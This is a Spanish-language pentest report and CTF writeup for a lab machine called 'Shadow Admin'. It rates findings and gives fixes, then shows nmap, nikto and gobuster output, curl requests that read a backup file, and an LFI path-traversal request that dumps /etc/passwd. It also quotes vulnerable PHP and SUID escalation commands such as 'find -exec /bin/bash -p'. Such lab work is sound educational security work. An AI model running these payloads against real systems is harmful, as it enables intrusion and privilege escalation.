# Auditoría de Seguridad Ofensiva y Writeup — Shadow Admin

> **Laboratorio autorizado de Whoami-Labs.** El compromiso se ejecutó **únicamente por red** contra `172.17.0.2`, a través del servicio HTTP publicado; no se consultó el daemon de Docker ni se accedió a los archivos del contenedor desde el host.

> **Nota de redacción.** En esta versión pública las credenciales se muestran como `[REDACTADO]` y la flag como `SHADOW{...}`. En las capturas de terminal y en la validación, el contenido entre llaves aparece difuminado.

## Ficha técnica

| Campo | Valor |
|---|---|
| Laboratorio | Shadow Admin |
| Autor | chifay |
| Plataforma | [Whoami-Labs](https://whoami-labs.com/laboratorios/shadow-admin) |
| Dificultad | Hard |
| Categoría | SUID & Sudo |
| Objetivo | `172.17.0.2` |
| Atacante | Kali Linux `172.17.0.1` (`chifay@kali`) |
| Fecha | 2026-11-10 |
| Servicios expuestos | `80/tcp` HTTP, `199/tcp` smux |
| Resultado | **Compromiso total — root — flag capturada** |
| Flag | `SHADOW{...}` |

---

## 1. Resumen ejecutivo

El laboratorio **Shadow Admin** permite a un atacante no autenticado pasar de un simple reconocimiento web a **ejecución remota de comandos como el usuario `admin` y, finalmente, a `root`**, leyendo la flag de `/root/flag.txt`.

La cadena explota cinco debilidades encadenadas:

1. **Directory listing** en `/backups/` con un archivo `config.bak` que contiene credenciales en texto claro.
2. **Credenciales reutilizadas** entre la base de datos, el panel de administración y la cuenta de sistema `admin`.
3. **Local File Inclusion (LFI)** en `index.php?page=`, que permite leer archivos arbitrarios y revelar el código fuente PHP.
4. **Subida de archivos sin validación** en `profile.php`: el servidor escribe directamente un `.php` en el webroot y lo ejecuta.
5. **Configuración insegura de privilegios**: Apache corre como `admin` (grupo `sudo`), reglas `sudo` excesivas y binarios SUID (`bash`, `find`, `watch`).

El impacto es **Crítico**: un atacante remoto no autenticado puede ejecutar comandos, obtener una shell interactiva, escalar a root y exfiltrar la flag. No fue necesario ningún acceso previo a la máquina ni interacción del usuario.

---

## 2. Alcance, metodología y limitaciones

### 2.1 Alcance

- Único objetivo: `172.17.0.2`.
- Pruebas realizadas desde Kali Linux (`172.17.0.1`) a través de la red Docker.
- Se auditó el servicio HTTP y, a partir del RCE, el sistema operativo del contenedor vía red.

### 2.2 Metodología

- Reconocimiento y enumeración: PTES / OSSTMM.
- Pruebas web: OWASP WSTG (information gathering, configuration, authentication, file upload, path traversal).
- Post-explotación: enumeración local, `sudo`, SUID, GTFOBins.
- Mapeo de técnicas: MITRE ATT&CK.

### 2.3 Herramientas

`nmap`, `nikto`, `gobuster`, `curl`, `netcat`, `base64`, GTFOBins.

### 2.4 Limitaciones

- El análisis se basa en la superficie HTTP y en la información obtenida tras el RCE; no se realizó revisión de código fuera de los archivos PHP revelados por el propio LFI.
- Los tiempos y direcciones IP de las capturas corresponden al entorno de laboratorio.
- No se modificó la configuración del contenedor; solo se subió el webshell necesario para demostrar el impacto.

---

## 3. Cadena de ataque

```text
Kali 172.17.0.1
      |
      |  1. GET /backups/                  -> directory listing
      |  2. GET /backups/config.bak        -> admin:[REDACTADO] / APP_KEY
      |  3. GET /index.php?page=../../...  -> LFI: /etc/passwd y código fuente
      |  4. POST /profile.php              -> login con credenciales reutilizadas
      |  5. POST /profile.php (multipart)  -> shell.php en /var/www/html/
      |  6. GET /shell.php?c=id            -> RCE como admin (uid=1000)
      |  7. sudo -l / find -perm -4000     -> sudo excesivo y SUID
      |  8. find -exec bash -p             -> euid=0(root)
      v
172.17.0.2:80  Apache 2.4.18 / PHP 7.0.33 / Ubuntu 16.04.7
      |
      +--> /root/flag.txt  ->  SHADOW{...}
```

---

## 4. Hallazgos

### 4.1 Tabla resumen

| ID | Hallazgo | Severidad | CVSS v3.1 | CWE | MITRE |
|---|---|---|---|---|---|
| H-01 | Directory listing y backup `config.bak` con credenciales | Alta | 7.5 | CWE-538, CWE-200, CWE-312 | T1552.001 |
| H-02 | Local File Inclusion en `index.php?page=` | Alta | 8.6 | CWE-98, CWE-22, CWE-552 | T1190, T1083 |
| H-03 | Credenciales hardcodeadas y reutilizadas | Crítica | 9.8 | CWE-798, CWE-259, CWE-521 | T1078 |
| H-04 | Subida de archivos sin restricciones → RCE | Crítica | 9.8 | CWE-434 | T1505.003 |
| H-05 | Apache como `admin` + `sudo` excesivo y contraseña reutilizada | Crítica | 9.8 | CWE-250, CWE-269, CWE-522 | T1078, T1548.003 |
| H-06 | Binarios SUID peligrosos (`bash`, `find`, `watch`) | Alta | 7.8 | CWE-269, CWE-732 | T1548.001 |
| H-07 | Stack EOL, cabeceras ausentes y cookie sin `HttpOnly` | Media | 5.3 | CWE-1104, CWE-693 | T1592 |
| H-08 | Puerto `199/tcp` (smux) expuesto innecesariamente | Informativa | 0.0 | CWE-1327 | T1595 |

> Las severidades son orientativas y están calculadas sobre el impacto real en la cadena. La combinación H-03 + H-04 + H-05 eleva el riesgo global a **Crítico**.

---

### H-01 — Directory listing y backup con credenciales

**Descripción.** El directorio `/backups/` tiene listado de directorios habilitado y publica `config.bak`, un backup de configuración de 54 bytes con las credenciales de la base de datos y una clave de aplicación.

**Evidencia.** Captura `04_backup_lfi` (sección 5.4).

**Impacto.** Un atacante no autenticado obtiene `admin:[REDACTADO]` y `APP_KEY=[REDACTADO]`. La contraseña se reutiliza en el panel y en la cuenta de sistema, lo que convierte una fuga de información en un compromiso completo.

**Remediación.**

- Eliminar `/var/www/html/backups` del webroot y no publicar nunca backups, `.bak`, `.old`, `.zip` ni volcados de configuración.
- Deshabilitar el listado de directorios (`Options -Indexes`) y aplicar denegación explícita a extensiones sensibles.
- Rotar inmediatamente `DB_PASS` y `APP_KEY`; comprobar si se reutilizan en otros servicios.
- Mover secretos a un gestor de secretos (Vault, AWS Secrets Manager, SOPS) y no almacenarlos en el árbol web.
- Añadir reglas de detección para `GET /*.bak`, `/*.old`, `/*.zip` y para respuestas `200` a rutas de backup.

---

### H-02 — Local File Inclusion en `index.php?page=`

**Descripción.** `index.php` pasa el parámetro `page` directamente a `include()` sin validación:

```php
<?php if(isset($_GET["page"])) include($_GET["page"]); ?>
```

Esto permite leer archivos arbitrarios (`../../../../../../etc/passwd`) y revelar código fuente mediante el wrapper `php://filter`.

**Evidencia.** Capturas `03_nikto` y `04_backup_lfi` (secciones 5.2 y 5.4).

**Impacto.** Divulgación de `/etc/passwd`, código fuente, configuración y potencial ejecución de código si el atacante consigue escribir un archivo que luego sea incluido (logs, sesiones, uploads). En este laboratorio se usó para confirmar las credenciales y la lógica de subida.

**Remediación.**

- Sustituir la inclusión dinámica por una **allowlist** de páginas:

```php
$pages = [
    'home'  => __DIR__ . '/home.php',
    'login' => __DIR__ . '/profile.php',
];
$key = $_GET['page'] ?? 'home';
include $pages[$key] ?? $pages['home'];
```

- Validar con `basename()`, `realpath()` y comprobar que la ruta resuelta sigue dentro del directorio permitido.
- Configurar `open_basedir`, deshabilitar `allow_url_include` y `allow_url_fopen` si no son necesarios.
- Bloquear en el WAF patrones `../`, `php://`, `data://`, `expect://`, `zip://`, `phar://`.
- Aplicar el principio de mínimos privilegios al usuario del servicio web.

---

### H-03 — Credenciales hardcodeadas y reutilizadas

**Descripción.** `profile.php` contiene las credenciales del panel en texto claro y las compara directamente:

```php
if($_POST["user"]=="admin" && $_POST["pass"]=="[REDACTADO]") { $_SESSION["admin"]=true; }
```

La misma contraseña `[REDACTADO]` aparece en `config.bak` como `DB_PASS` y funciona además como contraseña del usuario de sistema `admin` (validado con `sudo`).

**Evidencia.** Capturas `04_backup_lfi`, `05_login_upload` y `09_sudo_reuse` (secciones 5.4, 5.5 y 5.9).

**Impacto.** Un atacante que lea el backup obtiene acceso al panel y, por reutilización, a `sudo` como root. No hay separación de secretos entre base de datos, aplicación y sistema operativo.

**Remediación.**

- Eliminar credenciales del código y del webroot; usar variables de entorno o un gestor de secretos.
- Almacenar solo hashes con `password_hash()` (Argon2id o bcrypt con coste adecuado) y verificar con `password_verify()`.
- Contraseñas únicas por servicio; prohibir la reutilización entre DB, panel y sistema.
- Rotar `[REDACTADO]` en todos los sistemas donde exista.
- Añadir MFA al panel, bloqueo por intentos fallidos y limitación de tasa.
- Revisar el código con análisis estático y reglas de pre-commit para detectar secretos.

---

### H-04 — Subida de archivos sin restricciones → RCE

**Descripción.** Una vez autenticado, `profile.php` acepta un archivo y lo mueve directamente a `/var/www/html/shell.php`, sin validar extensión, tipo MIME real, tamaño ni contenido:

```php
if(isset($_POST["upload"])) move_uploaded_file($_FILES["shell"]["tmp_name"], "/var/www/html/shell.php");
```

El servidor **ignora por completo** el nombre y el `Content-Type` enviados por el cliente. En la prueba se envió un PHP con `type=image/png` y aun así quedó guardado como `shell.php` ejecutable.

**Evidencia.** Captura `05_login_upload` (sección 5.5).

**Impacto.** Ejecución remota de comandos como `admin` (`uid=1000`). El webshell permite leer archivos, enumerar el sistema, abrir shells inversas y servir de base para la escalada.

**Remediación.**

- Validar por **allowlist** de extensiones y por MIME real con `finfo_file()`; no confiar en `Content-Type` ni en el nombre del cliente.
- Verificar imágenes con `getimagesize()` y, si es posible, re-codificarlas.
- Generar un nombre aleatorio y almacenar fuera del webroot (`/var/uploads`), sirviendo los archivos mediante un endpoint controlado.
- Deshabilitar la ejecución de PHP en el directorio de subidas (`php_admin_flag engine off`, `.htaccess` o configuración del vhost).
- Limitar tamaño, permisos (`0640`), propiedad y aplicar antivirus/CDR.
- Monitorizar la creación de nuevos `.php` en el webroot.

---

### H-05 — Apache como `admin`, `sudo` excesivo y contraseña reutilizada

**Descripción.** El servicio Apache se ejecuta como el usuario `admin` (`APACHE_RUN_USER=admin`, `APACHE_RUN_GROUP=admin`), que pertenece al grupo `sudo`. La salida de `sudo -n -l` muestra:

- `(ALL) ALL` y `(ALL : ALL) ALL` — sudo completo con contraseña.
- `(root) NOPASSWD: /usr/bin/php /var/www/html/shell.php` — el webshell puede ejecutarse como root.
- `(ALL) NOPASSWD: /usr/bin/watch` — `watch` puede ejecutarse como root sin contraseña.

Además, la contraseña `[REDACTADO]` del panel y de la base de datos también es válida para `sudo`.

**Evidencia.** Capturas `06_suid_enum` y `09_sudo_reuse` (secciones 5.6 y 5.9).

**Impacto.** El RCE inicial ya se ejecuta como un usuario con capacidad de `sudo`. La reutilización de contraseña permite `sudo -S id` → `uid=0(root)` sin explotar ningún binario SUID. Es una escalada directa y extremadamente simple.

**Remediación.**

- Ejecutar Apache como un usuario dedicado sin shell y sin sudo (`www-data`), nunca como una cuenta administrativa.
- Eliminar `admin` del grupo `sudo` y revisar todo `/etc/sudoers` y `/etc/sudoers.d/`.
- Suprimir `NOPASSWD`; si se necesita automatización, limitar a comandos concretos, sin argumentos arbitrarios y con registro.
- Rotar la contraseña de `admin`; deshabilitar el login de cuentas de servicio.
- Aplicar MFA a los accesos administrativos y monitorizar `sudo` con `auditd`/SIEM.

---

### H-06 — Binarios SUID peligrosos

**Descripción.** La enumeración de SUID muestra binarios que permiten escalar a root:

```text
/bin/bash
/usr/bin/find
/usr/bin/watch
```

`/bin/bash` con SUID permite `bash -p` → `euid=0`. `/usr/bin/find` es un clásico de GTFOBins (`find . -exec /bin/bash -p \; -quit`). `/usr/bin/watch` es SUID root y además tiene una regla `sudo NOPASSWD`; aunque `watch` reduce privilegios al ejecutar directamente `/bin/sh`, al invocar `/bin/bash -p` el bash SUID eleva de nuevo a root. Esta es la vía que da nombre a la flag.

**Evidencia.** Capturas `06_suid_enum`, `07_revshell`, `08_suid_bash` y `10_watch_bridge` (secciones 5.6, 5.7, 5.8 y 5.10).

**Impacto.** Cualquier usuario local (incluido `admin`) obtiene root de forma trivial. En el laboratorio se usó `find` para obtener una shell con `euid=0` y leer la flag.

**Remediación.**

- Retirar el bit SUID a binarios que no lo necesiten:

```bash
sudo chmod u-s /bin/bash /usr/bin/find /usr/bin/watch
```

- Sustituir SUID por capacidades (`setcap`) o wrappers con permisos mínimos.
- Montar `/usr` y `/home` con `nosuid` cuando sea posible.
- Mantener una línea base de SUID y alertar ante cambios (`find / -perm -4000 -type f`).
- Revisar GTFOBins y eliminar cualquier binario SUID explotable.

---

### H-07 — Stack EOL, cabeceras ausentes y cookie sin `HttpOnly`

**Descripción.** El sistema ejecuta Ubuntu 16.04.7 LTS (EOL), PHP 7.0.33 (EOL) y Apache 2.4.18 (obsoleto). Nikto detectó ausencia de cabeceras de seguridad y una cookie de sesión sin `HttpOnly`.

**Evidencia.** Captura `03_nikto` (sección 5.2).

**Impacto.** Mayor superficie de vulnerabilidades conocidas, riesgo de XSS/clickjacking, robo de sesión vía JavaScript y dificultad para recibir parches.

**Remediación.**

- Migrar a una versión soportada de Ubuntu (22.04/24.04), PHP 8.x y Apache actual.
- Aplicar un ciclo de gestión de parches y, mientras tanto, virtual patching/WAF.
- Añadir `Content-Security-Policy`, `Strict-Transport-Security`, `X-Content-Type-Options`, `Referrer-Policy`, `Permissions-Policy` y `frame-ancestors`.
- Configurar cookies con `HttpOnly`, `Secure` y `SameSite`.
- Forzar HTTPS y redirigir HTTP.

---

### H-08 — Puerto `199/tcp` expuesto

**Descripción.** Nmap identifica `199/tcp` como `smux` (Linux SNMP multiplexer). No se explotó ni se identificó una función legítima para el laboratorio.

**Impacto.** Servicio innecesario que amplía la superficie de ataque.

**Remediación.** Cerrar el puerto si no es imprescindible, restringirlo a `localhost` o a una red de gestión y documentar su propósito.

---

## 5. Explotación paso a paso

### 5.1 Reconocimiento de puertos y servicios



*Figura 5.1. Salida de Nmap.*

```text
chifay@kali:~/SHADOW ADMIN$ nmap -p- --min-rate 2000 -T4 172.17.0.2

Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-10 13:50 -0600
Nmap scan report for metasploitable.vm (172.17.0.2)
Host is up (0.0000040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE
80/tcp  open  http
199/tcp open  smux
MAC Address: 2A:52:54:6B:86:FA (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.79 seconds

chifay@kali:~/SHADOW ADMIN$ nmap -sCV -p80,199 172.17.0.2

Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-10 13:50 -0600
Nmap scan report for metasploitable.vm (172.17.0.2)
Host is up (0.000040s latency).

PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
199/tcp open  smux    Linux SNMP multiplexer
MAC Address: 2A:52:54:6B:86:FA (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.48 seconds

chifay@kali:~/SHADOW ADMIN$ exit

exit
```

**Lectura:** solo `80/tcp` (HTTP) y `199/tcp` (smux). El servicio web es Apache 2.4.18 sobre Ubuntu.

### 5.2 Análisis con Nikto



*Figura 5.2. Salida de Nikto.*

```text
chifay@kali:~/SHADOW ADMIN$ nikto -h http://172.17.0.2/ -maxtime 120s

- Nikto v2.6.1
---------------------------------------------------------------------------
+ Target IP:          172.17.0.2
+ Target Hostname:    172.17.0.2
+ Target Port:        80
+ Platform:           Unknown
+ Start Time:         2026-11-10 13:47:40 (GMT-6)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ No CGI Directories found (use '-C all' to force check all possible dirs). CGI tests skipped.
+ [999990] OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
+ [740000] Multiple index files found (all unique): /index.html, /index.php.
+ [013587] /: Suggested security header missing: content-security-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
+ [013587] /: Suggested security header missing: referrer-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy
+ [013587] /: Suggested security header missing: strict-transport-security. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security
+ [013587] /: Suggested security header missing: permissions-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Permissions-Policy
+ [013587] /: Suggested security header missing: x-content-type-options. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Content-Type-Options
+ [600050] Apache/2.4.18 appears to be outdated (current is at least 2.4.68).
+ [000029] /profile.php?u=3q7QpyYi: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ [000560] /index.php?page=../../../../../../../..//etc/hosts: The PHP-Nuke Rocket add-in is vulnerable to file traversal, allowing an attacker to view any file on the host. (probably Rocket, but could be any index.php).
+ [003584] /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ [007342] /: X-Frame-Options header is deprecated and was replaced with the Content-Security-Policy HTTP header with the frame-ancestors directive. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/X-Frame-Options
+ [007352] /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ 8216 requests: 0 errors and 13 items reported on the remote host
+ End Time:           2026-11-10 13:47:52 (GMT-6) (12 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

chifay@kali:~/SHADOW ADMIN$ exit

exit
```

**Lectura:** Nikto confirma el LFI (`index.php?page=...`), el Apache obsoleto, las cabeceras ausentes y la cookie sin `HttpOnly`.

### 5.3 Enumeración de directorios con Gobuster



*Figura 5.3. Salida de Gobuster.*

```text
chifay@kali:~/SHADOW ADMIN$ gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,txt,bak,zip,old -t 30 --no-error
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,txt,bak,zip,old
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta                 (Status: 403) [Size: 275]
.hta.zip             (Status: 403) [Size: 275]
.hta.bak             (Status: 403) [Size: 275]
.hta.old             (Status: 403) [Size: 275]
.hta.php             (Status: 403) [Size: 275]
.htaccess.zip        (Status: 403) [Size: 275]
.htaccess.old        (Status: 403) [Size: 275]
.htaccess            (Status: 403) [Size: 275]
.htaccess.txt        (Status: 403) [Size: 275]
.hta.txt             (Status: 403) [Size: 275]
.htaccess.php        (Status: 403) [Size: 275]
.htaccess.bak        (Status: 403) [Size: 275]
.htpasswd.bak        (Status: 403) [Size: 275]
.htpasswd            (Status: 403) [Size: 275]
.htpasswd.php        (Status: 403) [Size: 275]
.htpasswd.txt        (Status: 403) [Size: 275]
.htpasswd.old        (Status: 403) [Size: 275]
.htpasswd.zip        (Status: 403) [Size: 275]
backups              (Status: 301) [Size: 310] [--> http://172.17.0.2/backups/]
index.php            (Status: 200) [Size: 0]
index.html           (Status: 200) [Size: 59]
index.php            (Status: 200) [Size: 0]
profile.php          (Status: 200) [Size: 123]
server-status        (Status: 403) [Size: 275]
===============================================================
Finished
===============================================================
chifay@kali:~/SHADOW ADMIN$ exit
exit
```

**Lectura:** aparece `/backups/` con `301`, además de `index.php`, `index.html` y `profile.php`. El directorio de backups es el punto de entrada.

### 5.4 Backup expuesto y LFI



*Figura 5.4. Salida de las consultas curl para el backup y el LFI.*

```text
chifay@kali:~/SHADOW ADMIN$ curl -sS http://172.17.0.2/backups/

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /backups</title>
 </head>
 <body>
<h1>Index of /backups</h1>
  <table>
   <tr><th valign="top"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="config.bak">config.bak</a></td><td align="right">2026-03-06 20:18  </td><td align="right"> 54 </td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.18 (Ubuntu) Server at 172.17.0.2 Port 80</address>
</body></html>

chifay@kali:~/SHADOW ADMIN$ curl -sS http://172.17.0.2/backups/config.bak

DB_USER=admin
DB_PASS=[REDACTADO]
APP_KEY=[REDACTADO]

chifay@kali:~/SHADOW ADMIN$ curl -sS "http://172.17.0.2/index.php?page=../../../../../../etc/passwd"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
